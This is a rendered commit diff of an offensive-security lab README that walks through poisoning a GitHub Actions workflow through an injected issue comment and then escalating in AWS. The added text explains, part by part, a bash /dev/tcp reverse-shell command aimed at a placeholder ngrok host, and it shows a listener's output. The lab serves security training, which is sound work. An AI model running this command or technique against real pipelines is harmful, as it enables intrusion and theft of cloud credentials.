

Before and after one commit to R3DRUN3/sploitcraft, a Markdown page: labs/pipes-to-cloud/README.md, 3 parts joined by grey strips. Shown: that part at 94% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/labs/pipes-to-cloud/README.md
+++ b/labs/pipes-to-cloud/README.md
@@ -3,19 +3,19 @@
 Hack your way from Github Action pipelines to AWS!
 
 ## Abstract
-This lab enables provisioning of all necessary infrastructure for demonstrating an attack scenario in which a malicious actor starts by compromising a [*Github Action*](https://github.com/features/actions), performs lateral movement across an [*AWS*](https://aws.amazon.com/) account and, eventually, escalates privileges to aws administrator.
+This lab enables provisioning of all necessary infrastructure for demonstrating an attack scenario in which a threat actor starts by compromising a [*Github Action*](https://github.com/features/actions), performs lateral movement to an [*AWS*](https://aws.amazon.com/) account and, eventually, escalates privileges to aws administrator.
 
 Specifically, the attack comprises the following phases:
 
 1. Injection of a malicious comment into a Github issue to trigger a Github Action that initiates a reverse shell ([*Poisoned Pipeline Execution*](../../ci-cd/ppe/README.md)).
 
-2. Extraction of secrets from the runner via the reverse shell, uncovering AWS keys.
+2. Exfiltration of secrets from the action's runner via reverse shell, uncovering AWS keys.
 
-3. Enumeration of AWS resources using the previously extracted secrets, revealing read access to the contents of an [*S3 bucket*](https://aws.amazon.com/pm/serv-s3).
+3. Enumeration of AWS resources using the previously extracted keys, revealing read access to the contents of an [*S3 bucket*](https://aws.amazon.com/pm/serv-s3).
 
 4. The bucket contains some files: you uncover additional AWS keys.
 
-5. Leveraging these keys, you employ [*Pacu*](https://github.com/RhinoSecurityLabs/pacu) to perform privilege escalation and gain root access across the entire AWS account.
+5. Leveraging these keys, you employ [*Pacu*](https://github.com/RhinoSecurityLabs/pacu) to perform privilege escalation and gain admin access across the entire AWS account.
 
 ![attack](./images/attack.png)
 
@@ -492,6 +493,8 @@ jobs:
 
 and you notice that they are echoing the content of the issue body (`${{ github.event.comment.body }}`) without sanitizing it!
 
+Maybe there is a way to pipe malicious commands by simply commenting on that issue 🤔
+
 At this point you can proceed to poison the execution 😈
 
 In order to do that you can use [*ngrok*](https://ngrok.com/) (you can also use [*Cloudflare Tunnels*](https://www.cloudflare.com/products/tunnel/) or whatever tool fit the need to seamlessy expose a local service to the internet).
@@ -517,7 +520,25 @@ Our payload will be:
 
 ![evil-comment](./images/evil-comment.png)
 
-This will trigger the github action and open a reverse shell from within the github runner, back to your local machine!
+
+This command sets up a reverse shell from a target machine (github action runner) to a listening server (the attacker's machine).
+Let's break down what each part of the command does:
+
+
+1. `bash -i`: Launches an interactive Bash shell (`-i` flag).
+
+2. `>& /dev/tcp/<NGROK-IP-HERE>/<NGROK-PORT-HERE>`: Redirects both stdout and stderr of the Bash shell to a TCP connection to `<NGROK-IP-HERE>` on `<NGROK-PORT-HERE>`.
+  Here's how this redirection works:
+  - `>&` combines the stdout (`1`) and stderr (`2`) streams.
+
+  - `/dev/tcp/<NGROK-IP-HERE>/<NGROK-PORT-HERE>` is a special device in Unix-like systems that allows Bash to open a TCP connection to `<NGROK-IP-HERE>` at `<NGROK-PORT-HERE>`.
+
+3. `0>&1`: Redirects stdin (file descriptor `0`) to the same place as stdout (file descriptor `1`). This ensures that all input and output from the Bash shell session are sent over the network connection established with NGROK.
+
+
+
+Now you have a remote shell on the runner!
+
 
 ```console
 listening on [any] 1337 ...
````
Also changed, not shown: other parts of labs/pipes-to-cloud/README.md (+14 -13 lines).
